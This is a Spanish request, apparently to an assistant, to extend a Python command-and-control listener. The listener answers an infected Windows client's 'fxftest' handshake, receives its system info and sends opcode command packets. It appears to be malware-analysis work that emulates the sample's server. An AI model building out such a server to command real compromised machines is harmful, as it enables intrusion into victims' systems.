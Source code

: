 partiendo del listener que te pego al final: 1. Modificalo para que no mantenga la conexion abierta. Que se cierre a las 40 segundos si no hay comunicaciones nuevas. 2. Prepara una tercera respuesta del servidor C2 al windows infectado que se corresponda con esta recepción del windows: 

______________________________________________________
#!/usr/bin/env python3
import socket, binascii, datetime, struct

HOST = ''            # 0.0.0.0
PORT = 443
RECV_SZ = 65535
TIMEOUT_S = 120      # más relajado
OPCODE = 1           # el que quieres enviar

def hexdump(b: bytes) -> str:
    hx = binascii.hexlify(b).decode()
    return ' '.join(hx[i:i+2] for i in range(0, len(hx), 2))

def make_handshake_reply() -> bytes:
    return b"fxftest\x00"  # 8 bytes; compara sólo 7

def make_command_packet(opcode: int) -> bytes:
    # 0x104 bytes: [DWORD opcode LE] + relleno cero
    pkt = struct.pack("<I", opcode)
    return pkt + b"\x00" * (0x104 - len(pkt))

def handle_client(c: socket.socket, addr):
    ts = datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S')
    print(f'\n[+] {ts} Connection from {addr[0]}:{addr[1]}')
    state = "WAIT_HELLO"   # -> WAIT_SYSINFO -> ACTIVE
    try:
        c.settimeout(TIMEOUT_S)
        while True:
            try:
                data = c.recv(RECV_SZ)
            except socket.timeout:
                # Mantén viva la sesión; el cliente puede estar esperando ocioso.
                print('    [*] idle timeout; keeping connection open...')
                continue

            if not data:
                print('    [*] Client closed connection.')
                break

            print(f'    [*] Received ({len(data)} bytes):')
            print(f'        ASCII: {data!r}')
            print(f'        HEX  : {hexdump(data)}')

            if state == "WAIT_HELLO" and b'fxftest' in data:
                resp = make_handshake_reply()
                c.sendall(resp)
                print(f'    [*] Sent handshake ({len(resp)} bytes)')
                state = "WAIT_SYSINFO"
                continue

            if state == "WAIT_SYSINFO":
                # El cliente suele mandar exactamente 512 bytes de “sysinfo”
                if len(data) >= 512:
                    cmd = make_command_packet(OPCODE)
                    c.sendall(cmd)
                    print(f'    [*] Sent command ({len(cmd)} bytes), opcode={OPCODE}')
                    state = "ACTIVE"
                # Si llega en trozos, seguimos leyendo sin responder basura
                continue

            if state == "ACTIVE":
                # Por ahora sólo registramos; no respondemos nada por defecto.
                # (si descubres que el opcode 1 requiere ACK, se lo añadimos aquí)
                continue

    except Exception as e:
        print(f'    [!] Error: {e}')
    finally:
        try:
            c.shutdown(socket.SHUT_RDWR)
        except Exception:
            pass
        c.close()
        print('    [*] Connection closed.')

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen(5)
    print(f'[*] Listening on 0.0.0.0:{PORT}')
    try:
        while True:
            c, addr = s.accept()
            handle_client(c, addr)
    except KeyboardInterrupt:
        print('\n[!] Interrupted, shutting down.')
    finally:
        s.close()

if __name__ == "__main__":
    main()
